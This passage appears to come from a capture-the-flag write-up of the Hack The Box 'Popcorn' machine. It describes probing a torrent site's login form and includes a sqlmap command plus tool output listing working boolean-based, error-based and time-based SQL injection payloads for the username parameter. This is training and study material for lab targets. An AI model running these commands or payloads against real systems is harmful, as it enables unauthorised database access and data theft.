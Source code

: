 ![inputs.png](/assets/htb_stuff/popcorn/inputs.png)
 
I can pull out the 2 variables, username and password.
Using an attack proxy like ZAP I can follow the login process to failure and determine the POST method is used. This gives me the syntax:
 
```
sqlmap -u http://$TARGET/torrent/login.php --data="username=pwnd&password=pwnd" --method POST --dbms MySQL --thread=5 --tables
```
 
quickly the tool comes back with
 
```
[INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
```
 
I up the level and risk to 1, but avoid following any redirects to get:
 
```
[INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable
```
 
I can work with this to manually exploit if needed, I let the tests and eventually after trying a few different interactive options get the following results:
 
```
sqlmap identified the following injection point(s) with a total of 380 HTTP(s) requests:
---
Parameter: username (POST)
   Type: boolean-based blind
   Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
   Payload: username=pwnd' OR NOT 2740=2740#&password=pwnd
 
   Type: error-based
   Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
   Payload: username=pwnd' AND (SELECT 8745 FROM(SELECT COUNT(*),CONCAT(0x716a786b71,(SELECT (ELT(8745=8745,1))),0x7162716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DGhR&password=pwnd
 
   Type: time-based blind
   Title: MySQL <= 5.0.11 AND time-based blind (heavy query)
   Payload: username=pwnd' AND 5766=BENCHMARK(5000000,MD5(0x69424279))-- wnNK&password=pwnd
```
 